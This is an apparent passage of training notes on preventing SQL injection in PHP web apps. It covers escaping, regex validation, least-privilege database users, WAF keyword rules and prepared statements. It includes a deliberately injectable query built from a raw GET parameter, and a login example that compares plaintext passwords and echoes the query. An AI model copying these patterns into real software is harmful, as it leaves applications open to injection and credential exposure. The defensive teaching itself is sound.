The script takes in the username and password from the POST request and passes it to the query directly. This will let an attacker inject anything they wish and exploit the app. Injection can be avoided by sanitizing any user input, rendering injected queries useless. Libraries provide multiple functions to achieve this, one such example is the ```mysql_real_escape_string()``` function. This function escapes characters such as ```'``` and ```"```, so they don't hold any special meaning.

Usage example:

```php
<SNIP>
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
echo "Executing query: " . $query . "<br /><br />";
<SNIP>
```

#### Input Validation

User input can also be validated based on the data to query to ensure that it matches the expected input. For example, when taking an email as input, you can validate that the input is in the form of ```...@gmail.com```.

```php
<?php
if (isset($_GET["port_code"])) {
	$q = "Select * from ports where port_code ilike '%" . $_GET["port_code"] . "%'";
	$result = pg_query($conn,$q);
    
	if (!$result)
	{
   		die("</table></div><p style='font-size: 15px;'>" . pg_last_error($conn). "</p>");
	}
<SNIP>
?>
```

You see the GET parameter ```pord_code``` being used in the query directly. It's already known that a port code consists only of letters and spaces. You can restrict the user input to only these characters, which will prevent the injection of queries. A regular expression can be used for validating the input:

```php
<SNIP>
$pattern = "/^[A-Za-z\s]+$/";
$code = $_GET["port_code"];

if(!preg_match($pattern, $code)) {
  die("</table></div><p style='font-size: 15px;'>Invalid input! Please try again.</p>");
}

$q = "Select * from ports where port_code ilike '%" . $code . "%'";
<SNIP>
```

The code is modified to use the ```preg_match()``` function, which checks if the input matches the given pattern or not. The pattern used is ```[A-Za-z\s]+```, which only matches strings containing letters and spaces. Any other character will result in the termination of the script.

#### User Privileges

DBMS software allows the creation of users with fine-grained permissions. You should ensure that the user querying the database only has minimum permissions.

Superusers and users with administrative privileges should never be used with web applications. These accounts access to functions and features, which could lead to server compromise.

```bash
MariaDB [(none)]> CREATE USER 'reader'@'localhost';

Query OK, 0 rows affected (0.002 sec)


MariaDB [(none)]> GRANT SELECT ON ilfreight.ports TO 'reader'@'localhost' IDENTIFIED BY 'p@ssw0Rd!!';

Query OK, 0 rows affected (0.000 sec)
```

The commands above add a new MariaDB user named ```reader``` who is granted only SELECT privileges on the ports table. You can verify the permissions for this user by logging in:

```bash
d41y@htb[/htb]$ mysql -u reader -p

MariaDB [(none)]> use ilfreight;
MariaDB [ilfreight]> SHOW TABLES;

+---------------------+
| Tables_in_ilfreight |
+---------------------+
| ports               |
+---------------------+
1 row in set (0.000 sec)


MariaDB [ilfreight]> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| information_schema |
| ilfreight          |
+--------------------+
2 rows in set (0.000 sec)


MariaDB [ilfreight]> SELECT * FROM ilfreight.credentials;
ERROR 1142 (42000): SELECT command denied to user 'reader'@'localhost' for table 'credentials'
```

#### Web Application Firewall (WAF)

WAFs are used to detect malicious input and reject any HTTP requests containing them. This helps in preventing SQLi even when the application logic is flawed. WAFs can be open-source or premium. Most of them have default rules configured based on the common web attacks. For example, any request containing the string "INFORMATION_SCHEMA" would be rejected, as it's commonly used while exploitig SQLi.

#### Paramterized Queries

Another way to ensure that the input is safely sanitized is by using parameterized queries. Parameterized queries contain placeholders for the input data, which is then escaped and passed on by the drivers. Instead of directly passing the data into the SQL query, you use placeholders and then fill them with PHP functions.

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username=? AND password = ?" ;
  $stmt = mysqli_prepare($conn, $query);
  mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
  mysqli_stmt_execute($stmt);
  $result = mysqli_stmt_get_result($stmt);

  $row = mysqli_fetch_array($result);
  mysqli_stmt_close($stmt);
<SNIP>
```

The query is modified to contain two placeholders, marked with ```?``` where the username and password will be placed. You then bind the username and password to the query using the ```mysqli_stmt_bind_param()``` function. This will safely escape any quotes and place the values in the query.